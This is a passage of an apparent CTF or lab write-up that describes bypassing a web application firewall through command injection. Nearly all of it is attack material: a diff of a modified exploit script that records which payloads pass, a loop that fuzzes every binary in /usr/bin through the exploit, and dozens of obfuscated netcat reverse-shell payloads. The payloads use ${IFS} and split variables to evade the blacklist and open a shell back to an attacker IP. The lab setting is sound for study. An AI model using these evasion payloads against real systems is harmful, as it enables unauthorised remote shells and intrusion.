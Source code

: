 ```bash
>             print(" WAF WAF!")
>             f.write("Blacklisted.")
>         else :
>             print(" Bypassed WAF")
>             f.write("Bypassed")
96,97c99,103
<     request.post(generate_xml_page, xml_page_data)
< 
---
>     # Last post always pass the WAF
>     Resp=(request.post(generate_xml_page, xml_page_data).text)
>     print(Resp)
>     a=BeautifulSoup(Resp,features="lxml")
>     print(a.findAll(id="debug_1")[0].text)
```

So now every attempt is stored in WAF_blacklist file, before manual fuzzing, wanted to let something run on the background, wanted to see what binaries I will be able to access.
So I naively tried every binary I had.

```bash
ls /usr/bin/ | xargs -i bash -c "./modified_exploit.py admin password1 '{}'" &
```

The result was the only binary blacklisted was nc, space character too.

Here is the list of attempts, until you could see, in the end the final solution for a good payload obfuscation that ultimately spawned a shell.
First attempts was playing with variables, unfortunatly I discovered later that you could see the output of your payload, the box had the patched nc version that removes the -e option.

```bash
S=${IFS};I=10.10.14.112;P=1234;N=ncat;$N$S$I$S$P  Bypassed
S=${IFS};I=10.10.14.112;P=1234;N=ncat;$N$S$I$S$P  Bypassed
S=${IFS};I=10.10.14.112;P=1234;N=necat;$N$S$I$S$P  Bypassed
S=${IFS};I=10.10.14.112;P=1234;N=netcat;$N$S$I$S$P  Bypassed
S=${IFS};I=10.10.14.112;P=1234;N=netcat;$N$S$I$S$P  Bypassed
S=${IFS};I=10.10.14.112;P=1234;N=netcat;$N$S$I$S$P;yes  Bypassed
$(S=${IFS};I=10.10.14.112;P=1234;N=netcat;$N$S$I$S$P;yes)  Bypassed
$(S=${IFS};I=10.10.14.112;P=1234;N=netcat;$N$S$I$S$P;yes)  Bypassed
$(S=${IFS};D=-e;I=10.10.14.112;P=1234;N=netcat;$N$S$I$S$P$S$D$S/bin/bash;yes)  Bypassed
$(S=${IFS};D=-e;I=10.10.14.112;P=1234;N=netcat;$N$S$I$S$P$S$D$S/bin/bash;yes)  Bypassed
$(S=${IFS};I=10.10.14.112;P=1234;N=netcat;$N$S$I$S$P;yes)  Bypassed
/bin/bash  Bypassed
/bin/bash   Blacklisted.
$(S=${IFS};I=10.10.14.112;P=1234;N=netcat;$N$S$I$S$P;yes)  Bypassed
$(S=${IFS};I=10.10.14.112;P=1234;N=netcat;$N$S$I$S$P;yes)  Bypassed
$(S=${IFS};I=10.10.14.112;P=1234;N=netcat;$N$S$I$S$P;yes)  Bypassed
$(S=${IFS};B=/bin/bash;D=-e;I=10.10.14.112;P=1234;N=netcat;$N$S$I$S$P$S$D$S$B;yes)  Bypassed
$(S=${IFS};B=/bin/bash;D=-e;I=10.10.14.112;P=1234;N=netcat;$N$S$I$S$P$S$D$S$B;yes)  Bypassed
$(S= 	
;B=/bin/b;AS=ash;D=-e;I=10.10.14.112;P=1234;N=netcat;$N$S$I$S$P$S$D$S$B$AS;yes)  Blacklisted.
$(S=${IFS};B=/bin/b;AS=ash;D=-e;I=10.10.14.112;P=1234;N=netcat;$N$S$I$S$P$S$D$S$B$AS;yes)  Bypassed
$(S=${IFS};B=/bin/b;AS=ash;D=-e;I=10.10.14.112;P=1234;N=netcat;$N$S$I$S$P$S$D$S$B$AS;yes)  Bypassed
$(S=${IFS};B=/bin/b;AS=ash;D=-e;I=10.10.14.112;P=1234;N=netcat;$N$S$I$S$P$S$D$S$B$AS)  Bypassed
$(S=${IFS};B=/bin/b;AS=ash;D=-e;I=10.10.14.112;P=1234;N=netcat;$N$S$I$S$P$S$D$S$B$AS)  Bypassed
$(S=${IFS};B=/bin/b;AS=ash;D=-e;I=10.10.14.112;P=1234;N=netcat;$N$S$I$S$P$S$D$S$B$AS)  Bypassed
$(S=${IFS};I=10.10.14.112;P=1234;N=netcat;$N$S$I$S$P;yes)  Bypassed
$(S=${IFS};B=/bin/b;AS=ash;D=-e;I=10.10.14.112;P=1234;N=netcat;$N$S$I$S$P$S$D$S$B$AS)  Bypassed
S=${IFS};B=/bin/b;AS=ash;D=-e;I=10.10.14.112;P=1234;N=netcat;$N$S$I$S$P$S$D$S$B$AS  Bypassed
S=${IFS};B=/bin/b;AS=ash;D=-e;I=10.10.14.112;P=1234;N=netcat;$N$S$I$S$P$S$D$S$B$AS  Bypassed
$(S=${IFS};B=/bin/b;AS=ash;D=-e;I=10.10.14.112;P=1234;N=netcat;$N$S$I$S$P$S$D$S$B$AS;yes)  Bypassed
$(S=${IFS};I=10.10.14.112;P=1234;N=netcat;$N$S$I$S$P)  Bypassed
S=${IFS};I=10.10.14.112;P=1234;N=netcat;$N$S$I$S$P  Bypassed
S=${IFS};D=-e;B=/bin/bash;I=10.10.14.112;P=1234;N=netcat;$N$S$I$S$P  Bypassed
S=${IFS};D=-e;B=/bin/sh;I=10.10.14.112;P=1234;N=netcat;$N$S$I$S$P  Bypassed
```